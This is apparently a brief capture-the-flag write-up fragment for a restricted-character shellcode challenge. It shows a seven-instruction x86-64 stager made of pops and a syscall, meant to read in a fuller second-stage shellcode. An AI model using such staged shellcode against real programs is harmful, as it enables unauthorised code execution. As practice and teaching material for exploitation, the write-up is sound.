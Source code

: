 ### Shellcode


This is an easy challenge 

It restrict us only use any char in that string

`ZZJ loves shell_code,and here is a gift:\017\005 enjoy it!\n`

```
pop rdx
pop rdx
pop rdx
pop rdx
pop rdi
pop rdi
syscall
```

Use it to write another True shellcode


